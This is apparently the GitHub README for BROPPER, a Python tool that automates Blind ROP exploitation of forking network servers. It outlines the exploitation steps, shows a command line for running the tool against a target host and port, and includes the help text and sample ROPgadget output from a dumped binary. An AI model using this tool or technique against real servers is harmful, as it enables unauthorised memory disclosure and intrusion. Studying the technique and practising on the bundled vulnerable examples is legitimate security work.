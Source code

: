 # BROPPER

<p align="center">
  A Blind ROP exploitation python tool
  <br>
  <br>
</p>

## Abstract 
BROP (Blind ROP) was a technique found by Andrew Bittau from Stanford in 2014.

- [Original paper](https://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [Slides](https://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)

Most servers like nginx, Apache, MySQL, forks then communicates with the client. This means canary and addresses stay the same even if there is ASLR and PIE. So we can use some educated brute force to leak information and subsequently craft a working exploit.

## Flow of exploitation

1. Find buffer overflow offset
2. Find canary
3. Find saved registers (RBP / RIP)
4. Find stop gadgets
5. Find brop gadgets
6. Find a Write function (write / dprintf / puts / ...)
7. Leak the binary

## Examples of Results

There is 3 customs vulnerable examples provided in this repository. You can run it directly or build the Dockerfile

![](./.github/example.png)

BROPPER will then dump the binary : 

![](./.github/example_dump.png)

It's then possible to extract all ROP gadgets from the dumped binary using ROPgadget for example : 
```bash
$ ROPgadget --binary dump
Gadgets information
============================================================
0x0000000000001177 : adc al, 0 ; add byte ptr [rax], al ; jmp 0x1020
0x0000000000001157 : adc al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x1020
0x0000000000001137 : adc byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x1020
...
...
...
0x0000000000001192 : xor ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 0x16 ; jmp 0x1020
0x000000000000182e : xor eax, 0x891 ; mov rdi, rax ; call rcx
0x0000000000001861 : xor eax, 0xffffff22 ; mov rdi, rax ; call rcx

Unique gadgets found: 235
```

## Script usage 

To use this script:

```bash
python3 -m pip install -r requirements.txt
python3 bropper.py -t 127.0.0.1 -p 1337 --wait "Password :" --expected Bad --expected-stop Welcome -o dump
```
```bash
$ python3 bropper.py -h
usage: bropper.py [-h] -t TARGET -p PORT --expected-stop EXPECTED_STOP --expected EXPECTED --wait WAIT -o OUTPUT [--offset OFFSET] [--canary CANARY] [--no-canary] [--rbp RBP] [--rip RIP] [--stop STOP]
                  [--brop BROP] [--plt PLT] [--strcmp STRCMP] [--elf ELF]

Description message

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target url
  -p PORT, --port PORT  target port
  --expected-stop EXPECTED_STOP
                        Expected response for the stop gadget
  --expected EXPECTED   Expected normal response
  --wait WAIT           String to wait before sending payload
  -o OUTPUT, --output OUTPUT
                        File to write dumped remote binary
  --offset OFFSET       set a offset value
  --canary CANARY       set a canary value
  --no-canary           Use this argument if there is no stack canary protection
  --rbp RBP             set rbp address
  --rip RIP             set rip address
  --stop STOP           set stop gadget address
  --brop BROP           set brop gadget address
  --plt PLT             set plt address
  --strcmp STRCMP       set strcmp entry value
  --elf ELF             set elf address
```
## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.